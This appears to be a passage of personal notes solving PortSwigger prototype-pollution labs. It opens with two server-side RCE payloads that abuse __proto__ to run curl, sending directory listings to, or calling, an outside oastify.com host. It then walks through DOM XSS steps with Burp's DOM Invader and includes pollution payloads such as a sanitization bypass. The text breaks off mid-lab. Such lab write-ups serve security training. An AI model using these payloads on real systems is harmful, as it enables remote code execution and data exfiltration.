## Exploit to RCE:
```
    "__proto__": {
        "shell": "vim",
        "input": ":! curl -d \"`ls /home/carlos`\" hpa7lspiffwu453o0k2zy1xtuk0bo1cq.oastify.com \n"
    }
```
or
```
    "__proto__": {
        "execArgv": [
        "--eval=require('child_process').execSync('curl https://kzn4ftgcclackeaamiwn2p1ndej57xvm.oastify.com')"
        ]
    }
```

### LAB: DOM XSS via client-side prototype pollution1. Open the lab in Burp's built-in browser.

1. Enable `DOM Invader` and enable the prototype pollution option.
1. Open the browser `DevTools` panel, go to the `DOM Invader` tab, then reload the page.
1. Observe that `DOM Invader` has identified two prototype pollution vectors in the search property i.e. the query string.
1. Click `Scan for gadgets`. A new tab opens in which `DOM Invader` begins scanning for gadgets using the selected source.
1. When the scan is complete, open the `DevTools` panel in the same tab as the scan, then go to the `DOM Invader` tab.
1. Observe that `DOM Invader` has successfully accessed the `script.src` sink via the `transport_url` gadget.
1. Click Exploit. `DOM Invader` automatically generates a proof-of-concept exploit and calls `alert(1)`.

### LAB: DOM XSS via an alternative prototype pollution vector

Same as above lab but now the exploit is not triggering because `1` is appended to the `manager.sequence`. To bypass that, simply add a `-` to the exploit payload:

    ?__proto__.sequence=alert%281%29-

### LAB: Client-side prototype pollution via flawed sanitization

Use DOM Invader to solve this lab using:

    /?__pro__proto__to__[transport_url]=data%3A%2Calert%281%29

### LAB: Client-side prototype pollution in third-party libraries

Use DOM Invader to find prototype pollution payload. Modify it to meet the lab's requirement and send this to the victim:
